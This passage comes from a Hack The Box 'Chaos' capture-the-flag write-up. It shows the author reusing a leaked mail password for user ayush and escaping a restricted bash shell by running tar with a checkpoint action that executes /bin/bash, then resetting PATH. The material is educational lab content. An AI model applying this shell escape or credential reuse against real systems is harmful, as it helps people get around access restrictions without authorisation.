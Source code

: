 ![](/images/hackthebox/chaos/36.png)
<hr>
## Privilege Escalation to `ayush`, Bypassing `rbash`, User Flag
<br> We got earlier `ayush` credentials for mail : `ayush:jiujitsu` let's try that password :
![](/images/hackthebox/chaos/37.png)
<br> It worked but we are in a restricted bash shell now. 
<br> [This guide](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) is useful for bypassing restricted shells. I tried some commands to know what can I do from that shell and I could run `tar`. So I went back to `www-data` and went to `/tmp`.
<br> I created a file and called it `rick` : `touch rick`
<br> Then I added that file to a tar archive and called it `rick.tar` : `tar -cvf rick.tar rick`
<br> I went back to `ayush` and used `tar` to bypass the shell : `tar cf /dev/null rick.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash`
<br> After that I just had to fix my path and I had a functioning bash shell : `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
![](/images/hackthebox/chaos/38.png)
<br> Now we can read the user flag :